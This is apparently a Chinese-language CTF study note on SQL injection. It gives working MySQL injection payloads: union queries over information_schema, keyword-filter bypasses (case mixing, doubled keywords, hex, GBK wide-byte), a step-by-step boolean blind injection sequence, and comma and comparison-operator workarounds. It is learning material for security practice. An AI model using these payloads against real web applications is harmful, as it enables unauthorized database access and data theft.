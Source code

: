 ```yaml
---
title: "SQL注入 总结"
date: 2022-02-20T19:22:37+08:00
draft: true
url: "articles/sqlinject"
categories: ["CTF","SQL"]
---
```


### Union联合查询

**一些SQL特性：**

```sql
information_schema --+SQL自带的数据库，用于存放元数据
```

这个数据库中的一些常用字段：

* SCHEMATA：提供了当前mysql数据库中所有数据库的信息，其中SCHEMA_NAME字段保存了所有的数据库名。show databases的结果取自此表。

* TABLES：提供了关于数据库中的表的信息，详细表述了某个表属于哪个schema，表类型，表引擎，创建时间等信息，其中table_name字段保存了所有列名信息，show tables from schemaname的结果取自此表。

* COLUMNS：提供了表中的列信息。详细表述了某张表的所有列以及每个列的信息，其中column_name保存了所有的字段信息。show columns from schemaname.tablename的结果取自此表。

例：

```sql
select * from customers where customer_id=1 union select 1,group_concat(table_name),3,4,5 from information_schema.tables where table_schema=database() --+查询当前数据库中的所有数据表
select * from customers where customer_id=1 union select 1,group_concat(column_name),3,4,5 from information_schema.columns where table_schema=database() --+查询当前数据表的所有字段
```

1. **数字型注入绕过'**

在查询语句中使用16进制代替字符串。

2. **大小写绕过**

SQL本身对大小写不敏感，过滤代码中如未开大小写忽略可进行大小写绕过，如UniOn。

3. **双写绕过**

如过滤代码使用replace方式，将关键字替换为”“空字符串，则可进行双写绕过，如uniunionon，在被过滤一次之后为union，仍能生效。

4. **宽字节注入绕过**

字符型注入若过滤了'，且数据库为GBK编码则可以使用宽字节绕过。

```sql
SELECT * FROM admin WHERE id='1%df''                                 '
#经过转义之后
SELECT * FROM admin WHERE id='1%df\''
SELECT * FROM admin WHERE id='1%df%5c' 注入语句 ' 
```



### 布尔注入

所谓盲注就是在服务器没有错误回显的时候完成注入攻击。
盲注分为布尔盲注和时间盲注。
**布尔盲注：**boolean 根据注入信息返回true or fales 没有任何报错信息。
**时间盲注：**界面返回值ture 无论输入任何值，返回的情况都是正常的来处。加入特定的时间函数，通过查看web页面返回的时间差来判断注入的语句是否正确。

#### 布尔注入基本流程：

```sql
1.首先我们需要判断数据库长度 
' or Length(database()) = 8 #返回true说明数据库长度为8
2.获取数据库名字
' or ord(mid(database(),1,1)) ='ascill值'#
依次获取
3.获取表的总数
' or (select count(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database() )= 2#
4.获取表的长度(第一个表)
' or (select length(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database() limit 0,1 )= (猜测得长度)#
5.获取表的内容
' or  mid((select TABLE_NAME from information_schema.TABLES where 
TABLE_SCHEMA=database() limit 0,1),1,1)   = 'a' #
6.获取表的字段的总数
' or  (select count(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME=表名 ) = 8#8返回true说明有8个表
依次类推,最后推出内容。因为是盲猜所以只能这样一个一个去推手工比较麻烦 通常使用sqlmap进行注入
```

一道例题：

[sql注入 - Bugku CTF](https://ctf.bugku.com/challenges/detail/id/112.html)

[WP](https://blog.csdn.net/m0_57954651/article/details/121305540)

#### 绕过技巧：

1. **逗号绕过**

```sql
mid(username,1,1) == mid(username from 1 for 1)
substr(username,1,1) == substr(username from 1 for 1)

select * from admin limit 1,1 == select * from admin limit 1 offset 1
```

2. **比较运算符绕过**

```sql
greatest(n1,n2,n3...) #返回n中的最大值
greatest(ascii(substr(username,1,1)),1)=97
least(n1,n2,n3..) #返回n中的最小值

substr(username,1,1) in ('t');

between a and b; #范围在a与b之间

&lt;#代表小于号(<)
&gt;#代表大于符号(>)
&le;#表示小于或等于符号(<=)
&ge;#表示大于或等于符号(>=)

#注意使用&时要使用%26这一url编码，不然会被当作参数连接的符号
```



### 报错注入

利用MySQL数据库的报错信息，输出查询内容。

[SQL注入-报错注入 | qwzf](https://qwzf.github.io/2019/09/25/SQL注入-报错注入/)

